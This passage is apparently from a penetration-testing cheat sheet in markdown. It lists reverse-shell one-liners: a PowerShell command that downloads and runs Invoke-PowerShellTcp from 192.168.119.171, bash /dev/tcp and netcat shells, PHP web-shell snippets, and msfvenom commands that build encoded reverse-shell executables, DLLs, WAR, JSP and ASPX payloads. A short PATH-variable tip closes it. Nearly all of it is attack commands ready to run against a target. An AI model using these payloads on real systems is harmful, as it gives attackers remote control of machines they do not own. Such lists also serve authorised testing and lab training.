 ```
powershell.exe IEX(New-Object Net.WebClient).downloadString('192.168.119.171/Invoke-PowerShellTcp.ps1') 
# Serve up Invoke-PowerShellTcp.ps1 on an http server after adding the following line to the very bottom of the file, pointing to your nc listener:
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.171 -Port 6666
# You can note the activity on your http server to confirm network activity
```
- BASH reverse shells
```
bash -c 'exec bash -i &>/dev/tcp/<ATTACKIP>/<AttackLISTENER> <&1'
```
- nc reverse shells
```
rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> > /tmp/f
nc -nv <IP> <PORT> -e /bin/bash 
```
- PHP reverse shell
```
php -r '$sock=fsockopen(getenv("<ATTACKIP>"),getenv("<AttackLISTENER>"));exec("/bin/sh -i <&3 >&3 2>&3");'
<?php shell_exec("bash -i >& /dev/tcp/<ATTACKIP>/<AttackLISTENER> 0>&1"); ?>
<?php `bash -i >& /dev/tcp/<ATTACKIP>/<AttackLISTENER> 0>&1` ?>  
<?php passthru("bash -i >& /dev/tcp/<ATTACKIP>/<AttackLISTENER> 0>&1");?>
```
- msfvenom reverse shell
```
# aspx reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f aspx > reverse.aspx # aspx -- think IIS servers

# Powershell reverse shell
msfvenom -a x86 -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://<ATTACKIP>/Invoke-PowerShellTcp.ps1')" 

# shellcode, C -encoded -x86
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> exitfunc=thread -f c -e x86/shikata_ga_nai -b '\x00' 

# WAR reverse Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f war > warrshell443.war

# jsp reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f raw > jsprshell443.jsp

# exe reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f exe -o winrshell4443.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f exe -o winrshell4443.exe

# dll reverse shell
msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -f dll -o shell-cmd.dll

# php reverse shell
msfvenom -p php/shell_php LHOST=<ATTACKIP> LPORT=<AttackLISTENER> -O shell.php
```
#### PATH variables
- Add to the PATH variable to run commands from /tmp, for example
```
export PATH=$PATH:/tmp
export PATH=/tmp:$PATH
```